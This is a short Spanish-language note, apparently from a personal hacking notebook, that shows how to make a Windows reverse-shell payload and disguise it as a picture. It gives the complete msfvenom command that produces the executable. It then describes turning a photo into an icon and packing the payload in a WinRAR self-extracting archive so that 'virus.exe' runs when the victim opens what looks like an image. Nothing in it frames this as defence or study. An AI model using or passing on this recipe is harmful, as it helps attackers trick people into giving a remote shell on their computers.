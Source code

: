 Vamos a utilizar [[Msfvenom]], para crearnos un payload que esté hecho para Windows:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=myIP LPORT=port -f exe -o trampita.exe`

Para meterlo dentro de una foto:

1. Nos hace falta tener el archivo en formato ".ico":

"Convert ico" y descargamos el nuevo icono.

2. Usamos winrar:

Abrimos Winrar.
Añadir al archivo.

	1. Crear un archivo autoextraíble.
	2. Método de compresión: la mejor.

Avanzado -> Autoextraíble -> Instalación.

	Ejecutar tras la instalación (virus.exe, foto.png)

Texto e icono -> Cargar icono desde fichero -> Examinar.

	Seleccionamos la foto que está en formato ico.


	